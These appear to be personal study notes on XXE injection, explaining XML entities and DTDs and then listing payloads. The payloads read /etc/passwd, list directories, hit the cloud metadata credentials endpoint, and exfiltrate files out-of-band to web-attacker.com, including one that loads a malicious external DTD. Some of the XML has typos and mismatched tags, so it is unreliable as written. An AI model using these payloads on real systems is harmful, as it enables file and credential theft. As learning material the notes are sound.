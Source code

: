 ### XXE vulnerability 

xml- “extensible markup language”. design for storing and transporting data., it has no pre-defined tags, it lets you define own tags.

 ### XML entities ?

- XML entities are a way of representing an item of data within an XML document
- It is built-in entities in xml like <; and >; user for less that and grater then in xml
    
    example: <Product Id> 
    

### Type of entities:

- Internal - entities define within local DTD. the main purpose of the internal entity is to transfer same content again and again like the name of org. lwe can define any where to call the txt and insert the value ex: <!ENTITY foo “bar”> <product>&foo;</product>. make sure entity must be close.
- external - declared outside of local DTD ex: <!ENTITY foo SYSTEM “file:///etc/passwd>. but we use two entity one is internal to call data and other is external entity to fatch data from the system.
- parameter - declared into the parameter based entities <! ENTITY % name “entity_value”>

### Document type definition(DTD):

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access. 

- it is used to declared the structure of xml. Type of data value it contain.
- can also defining outside of the XML using <!DOCTYPE>
- DTD is declared with in the optional DOCTYPE element  at the starting of the XML doc.

### XML injection:

![xxe-injection.svg](https://prod-files-secure.s3.us-west-2.amazonaws.com/f2f7edc7-a7f6-434a-9e44-8b75ab7b3bac/a6751eec-683f-435b-b991-fff952479509/xxe-injection.svg)

### Impact:

sensitive Data Exposure, Access to infrastructure, Remote code execution, Server Side Request Forgery.

**why this vulnerability arise;**

Some applications use the XML format to transmit data between the browser and the server.

**when user input is inserted into a server-side XML document or SOAP message in an unsafe way. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.** 

**type of XXE attacks?**

- **Exploiting XXE to retrieve filed**: where an external entity is defined containing the contents of a  file, and returned in the application's response
- **SSRF attack through XXE:** where an external entity is defined based on a URL to a back-end system.
- **exploiting blind xxe exfiltrate Data out-of-band:** where sensitive data is transmitted from the application server to a system that the attacker controls.
- **Retrieve data via error messages:** where the attacker can trigger a parsing error message containing sensitive data.
  
### Main attacks of XXE
# Main attack of XML

first check for new Entity 

- <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY to replace "3"> ]>
<stockCheck>
<productId>&toreplace;</productId>
<storeId>1</storeId>
</stockCheck>

##### read file:

<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>

##### this case use to extrect a file if server uses PHP

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>

#####  third case notice we are declaring the `Element stockCheck` as ANY

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
<productId>&file;</productId>
<storeId>1</storeId>
</stockCheck3>exploit to retrieve the /etc/passwd file::

##### Directory listing (for java based application)

**list the contents of a directory** via XXE with a payload

<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>

##### SSRF

XXE is to abuse a ssrf inside  a cloud:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

##### Blind SSRF

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "[http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net](http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net/)"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>

 ##### "Blind" SSRF - Exfiltrate data out-of-band
    
    Exfiltrate the content of the the /etc/hostname file:
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY % exfiltrate SYSTEM '[http://web-attacker.com/?x=%file;'](http://web-attacker.com/?x=%25file;%27)>">
    %eval;
    %exfiltrate;
    
- To upload malicious.dtd

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>

##### commaon exploit

- <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
- <!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com">]>
- <! DOCTYPE root-element [element-declarations]>

### refrence:

https://www.w3resource.com/xml/internal-entities.php
https://d0znpp.medium.com/a4-xml-external-entities-xxe-%EF%B8%8F-top-10-owasp-2017-b9c293c27b0f
https://rohitcoder.medium.com/comprehensive-guide-detecting-fixing-and-defending-against-xxe-attacks-in-python-and-java-e78691b4b918
